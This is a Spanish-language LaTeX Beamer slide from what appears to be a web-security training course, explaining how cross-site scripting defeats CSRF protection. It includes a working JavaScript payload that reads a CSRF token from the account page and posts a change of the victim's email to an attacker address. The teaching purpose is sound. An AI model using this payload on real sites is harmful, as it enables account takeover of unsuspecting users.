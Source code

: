 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS $\rightarrow$ CSRF: Encadenamiento de Vulnerabilidades}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Concepto --- por qué XSS invalida la protección CSRF
  \item El XSS ejecuta JS en el origen de la aplicación víctima (same-origin).
  \item Las peticiones hechas desde ese JS incluyen automáticamente las cookies de sesión.
  \item Con same-origin, el JS puede LEER la respuesta $\rightarrow$ puede extraer tokens CSRF.
  \item $\rightarrow$ SameSite=Strict/Lax no ayuda porque la petición viene del mismo site.
  \item Flujo del ataque (Labs 49-50)
  \item 1. Atacante explota XSS en la app objetivo
  \item 2. El payload XSS hace GET de una página con formulario CSRF-protegido
  \item 3. Parsea el token CSRF del HTML de la respuesta
  \item 4. Envía POST con ese token válido $\rightarrow$ acción ejecutada como la víctima
  \item Payload XSS (en un solo bloque)
  \item \cmd{var r=new XMLHttpRequest();}
  \item \cmd{r.open('GET','/my-account',true);}
  \item \cmd{r.onload=function()\{}
  \item \cmd{var tok=r.responseText.match(/csrf\textquotedbl{} value=\textquotedbl{}([\textasciicircum{}\textquotedbl{}]+)/)[1];}
  \item \cmd{var x=new XMLHttpRequest();}
  \item \cmd{x.open('POST','/my-account/change-email',true);}
  \item \cmd{x.setRequestHeader('Content-Type','application/x-www-form-urlencoded');}
  \item \cmd{x.send('email=evil@attacker.com\&csrf='+tok);}
  \item \cmd{\};r.send();}
  \item SameSite=Strict/Lax + sin XSS = CSRF mitigado. XSS rompe esa garantía.
  \end{itemize}
\end{frame}
\end{document}
